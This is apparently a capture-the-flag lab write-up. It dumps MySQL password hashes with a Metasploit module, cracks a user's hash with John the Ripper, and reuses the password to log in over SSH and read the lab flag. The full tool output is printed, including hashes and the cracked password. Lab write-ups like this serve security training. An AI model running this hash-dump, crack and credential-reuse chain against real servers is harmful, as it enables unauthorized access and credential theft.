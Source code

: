 ### mysql_hashdump

This module extracts the usernames and encrypted password hashes from a MySQL server and stores them for later cracking.

1. From here, we will search, use, and set the proper options.
2. Then we run the exploit. The following is a snipit of the output
   ```bash
   [+] 10.10.144.194:3306    - Saving HashString as Loot: root:
    [+] 10.10.144.194:3306    - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
    [+] 10.10.144.194:3306    - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
    [+] 10.10.144.194:3306    - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
    [+] 10.10.144.194:3306    - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
    [+] 10.10.144.194:3306    - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
    [*] 10.10.144.194:3306    - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
   ```
3. as a result, we have another non-standard user name: **carl**

### John

1. Now that we have the hash, we can use JTR to find the password. Save the last hash into a file and try to crack it.
   ```bash
   root@ip-10-10-16-49:~/sql/nmap# john hash
   Warning: detected hash type "mysql-sha1", but the string is also recognized as "mysql-sha1-opencl"
   Use the "--format=mysql-sha1-opencl" option to force loading these as that type instead
   Using default input encoding: UTF-8
   Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
   Warning: no OpenMP support for this hash type, consider --fork=2
   Proceeding with single, rules:Single
   Press 'q' or Ctrl-C to abort, almost any other key for status
   Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
   Almost done: Processing the remaining buffered candidate passwords, if any.
   Proceeding with wordlist:/opt/john/password.lst
   Proceeding with incremental:ASCII
   doggie           (carl)
   1g 0:00:00:01 DONE 3/3 (2021-05-14 19:53) 0.6250g/s 1428Kp/s 1428Kc/s 1428KC/s doggie..doggia
   Use the "--show" option to display all of the cracked passwords reliably
   Session completed.
   ```
1. Chances are that this user has re-used this password as their SSH credentials.

   ```bash
   ssh carl@10.10.x.x
   cat MySQL.txt
   THM{congratulations_you_got_the_mySQL_flag}
   ```
